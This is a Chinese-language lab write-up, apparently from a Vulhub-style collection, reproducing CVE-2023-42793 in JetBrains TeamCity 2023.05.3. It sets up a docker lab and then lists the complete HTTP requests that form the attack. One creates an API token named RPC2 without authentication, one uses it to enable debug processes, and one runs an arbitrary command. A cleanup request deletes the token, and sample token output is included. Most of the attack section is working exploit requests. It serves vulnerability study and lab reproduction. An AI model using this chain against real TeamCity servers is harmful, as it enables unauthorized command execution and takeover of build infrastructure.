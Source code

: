# Jetbrains TeamCity 认证绕过导致远程命令执行漏洞 CVE-2023-42793

## 漏洞描述

TeamCity 是 JetBrains 的构建管理和持续集成服务器。

在 TeamCity 2023.05.3 版本及以前，存在一处由于逻辑错误导致的认证绕过漏洞，攻击者利用该漏洞最终可以在目标服务器上执行任意命令。

参考链接：

- [https://www.sonarsource.com/blog/teamcity-vulnerability/](https://www.sonarsource.com/blog/teamcity-vulnerability/)
- [https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/](https://blog.projectdiscovery.io/cve-2023-42793-vulnerability-in-jetbrains-teamcity/)

## 环境搭建

Vulhub 执行如下命令启动一个 TeamCity 2023.05.3 服务器：

```
docker compose up -d
```

服务启动后，需要打开`http://your-vps-ip:8111/`并执行一系列初始化操作。

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240226142233599.png)

## 漏洞复现

造成这个漏洞的原因是 TeamCity 内部对于所有以`/RPC2`为后缀结尾的请求都不认证权限。

而正好添加API Token的请求的结尾参数是Token的名字，我们可以添加一个名字为`RPC2`的API Token：

```
POST /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240226142656215.png)

这样就成功绕过权限认证生成了一个新的Token：

```
<?xml version="1.0" encoding="UTF-8" standalone="yes"?><token name="RPC2" creationTime="2024-02-26T06:26:36.980Z" value="eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw"/>
```

使用该Token来开启调试模式：

```
POST /admin/dataDir.html?action=edit&fileName=config%2Finternal.properties&content=rest.debug.processes.enable=true HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.bW8zdzY3TFJCTXRscmJsWkZFZTdYZEdqX1FN.NmQ2MWI4YTMtOTc5MC00NTA1LTkxOGItYmRkMmMwMDcwYjcw
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240226142943778.png)

开启调试模式后，就可以执行任意命令了：

```
POST /app/rest/debug/processes?exePath=id HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Length: 0
Authorization: Bearer eyJ0eXAiOiAiVENWMiJ9.UTlaUm5sYzQtRUZ0YTNhT1llU2xpTU43TjNF.MWY2NjI4MmQtYzFlMi00YTEwLTk1ZTEtMDFiZmZiOGY2NGY0
```

![](images/Jetbrains%20TeamCity%20认证绕过导致远程命令执行漏洞%20CVE-2023-42793/image-20240226143033172.png)

利用结束后，最好能够删除名为`RPC2`的API Token，避免对业务造成问题：

```
DELETE /app/rest/users/id:1/tokens/RPC2 HTTP/1.1
Host: your-vps-ip:8111
Accept-Encoding: gzip, deflate, br
Accept: */*
Accept-Language: en-US;q=0.9,en;q=0.8
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/121.0.6167.85 Safari/537.36
Connection: close
Cache-Control: max-age=0
Content-Type: application/x-www-form-urlencoded
Content-Length: 0
```
